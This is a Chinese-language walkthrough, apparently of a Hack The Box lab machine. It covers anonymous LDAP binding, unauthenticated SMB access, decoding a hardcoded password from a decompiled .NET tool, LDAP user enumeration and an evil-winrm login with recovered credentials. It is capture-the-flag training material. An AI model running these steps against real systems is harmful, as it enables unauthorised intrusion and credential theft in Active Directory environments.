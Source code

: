 nmap扫描结果

![](https://img.mi3aka.eu.org/2022/08/acead9ca9c5935a6d3bab8a05ad5203d.png)

goby扫描结果

![](https://img.mi3aka.eu.org/2022/08/51fe2b46ae2ca57afcb87f4b45dcb5a1.png)

---

1. LDAP NULL bind匿名绑定导致登录绕过漏洞

```python
import ldap
ldapconn = ldap.initialize('ldap://10.10.11.174:389')
ldapconn.simple_bind_s('', '')
print("hello")
```

![](https://img.mi3aka.eu.org/2022/08/b341faf6958276b3c3fc7dbaa6c27387.png)

2. smb未授权访问

`smbclient -N -L 10.10.11.174`

![](https://img.mi3aka.eu.org/2022/08/06a4a0fe9ea422fe1405aab994e05e6d.png)

![](https://img.mi3aka.eu.org/2022/08/a2d13d92997550e4874bf380d230f028.png)

![](https://img.mi3aka.eu.org/2022/08/07be57dae4c8fde4581387e006811f08.png)

只有`//10.10.11.174/support-tools`可以访问

![](https://img.mi3aka.eu.org/2022/08/c2da5b7ff66e1f8f36576669887be840.png)

![](https://img.mi3aka.eu.org/2022/08/b1bd2efd7085c2d1b6f036fe17d84ed4.png)

用`dnspy`进行逆向

![](https://img.mi3aka.eu.org/2022/08/4d7a37e9b026c97494c01ce6eb2fb467.png)

```cs
// UserInfo.Services.Protected
// Token: 0x0600000F RID: 15 RVA: 0x00002118 File Offset: 0x00000318
public static string getPassword()
{
	byte[] array = Convert.FromBase64String(Protected.enc_password);
	byte[] array2 = array;
	for (int i = 0; i < array.Length; i++)
	{
		array2[i] = (array[i] ^ Protected.key[i % Protected.key.Length] ^ 223);
	}
	return Encoding.Default.GetString(array2);
}


// UserInfo.Services.Protected
// Token: 0x06000011 RID: 17 RVA: 0x00002170 File Offset: 0x00000370
// Note: this type is marked as 'beforefieldinit'.
static Protected()
{
	Protected.enc_password = "0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E";
	Protected.key = Encoding.ASCII.GetBytes("armando");
}
```

```python
import base64

enc_password = "0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E"
key = "armando"


b64_password=base64.b64decode(enc_password)
password=""

for i in range(len(b64_password)):
    password+=chr((b64_password[i]^ord(key[i%len(key)]))^223)
print(password)
```

得到`nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz`

![](https://img.mi3aka.eu.org/2022/08/62e5e9d998b15c419e5e6f520c385e03.png)

作为ldap的密码试了这5个好像都不对???

---

重新看了一下dnspy,发现了一个`ladpquery`

```cs
public LdapQuery()
{
	string password = Protected.getPassword();
	this.entry = new DirectoryEntry("LDAP://support.htb", "support\\ldap", password);
	this.entry.AuthenticationType = AuthenticationTypes.Secure;
	this.ds = new DirectorySearcher(this.entry);
}
```

去[https://devconnected.com/how-to-search-ldap-using-ldapsearch-examples/](https://devconnected.com/how-to-search-ldap-using-ldapsearch-examples/)学了一下怎样用ldapsearch进行搜索

`ldapsearch -H LDAP://support.htb -D support\\ldap -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b "DC=support,DC=htb"`

![](https://img.mi3aka.eu.org/2022/08/5a183d987b5d61353283b535e0e95215.png)

![](https://img.mi3aka.eu.org/2022/08/bbee4814558c305f2734c4252f529233.png)

1. 列出所有用户名

`ldapsearch -H LDAP://support.htb -D support\\ldap -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b "CN=Users,DC=support,DC=htb" "name=*" | grep "name:"`

```
name: Users
name: krbtgt
name: Domain Computers
name: Domain Controllers
name: Schema Admins
name: Enterprise Admins
name: Cert Publishers
name: Domain Admins
name: Domain Users
name: Domain Guests
name: Group Policy Creator Owners
name: RAS and IAS Servers
name: Allowed RODC Password Replication Group
name: Denied RODC Password Replication Group
name: Read-only Domain Controllers
name: Enterprise Read-only Domain Controllers
name: Cloneable Domain Controllers
name: Protected Users
name: Key Admins
name: Enterprise Key Admins
name: DnsAdmins
name: DnsUpdateProxy
name: Shared Support Accounts
name: ldap
name: support
name: smith.rosario
name: hernandez.stanley
name: wilson.shelby
name: anderson.damian
name: thomas.raphael
name: levine.leopoldo
name: raven.clifton
name: bardot.mary
name: cromwell.gerard
name: monroe.david
name: west.laura
name: langley.lucy
name: daughtler.mabel
name: stoll.rachelle
name: ford.victoria
name: Administrator
name: Guest
```

2. 发现在`name=support`时会多出一个`info`项

![](https://img.mi3aka.eu.org/2022/08/6f8fd6d890e5cd270fbb250fd885eb4f.png)

`Ironside47pleasure40Watchful`

3. goby显示`5985`端口上存在`http`服务,推测为winrm,尝试进行攻击

一开始用`pywinrm`去调用发现抛出`winrm.exceptions.InvalidCredentialsError`错误...

用[https://github.com/Hackplayers/evil-winrm](https://github.com/Hackplayers/evil-winrm)进行攻击

>建议用Docker版

`./evil-winrm.rb -i 10.10.11.174 -u 'support' -p 'Ironside47pleasure40Watchful'`

![](https://img.mi3aka.eu.org/2022/08/37fec9d0cc5a845dff52b2c6f7f2eb1c.png)

---

CS上个线

![](https://img.mi3aka.eu.org/2022/08/ae51322ea25d173ea737668a4ed64167.png)

提权暂时没有思路...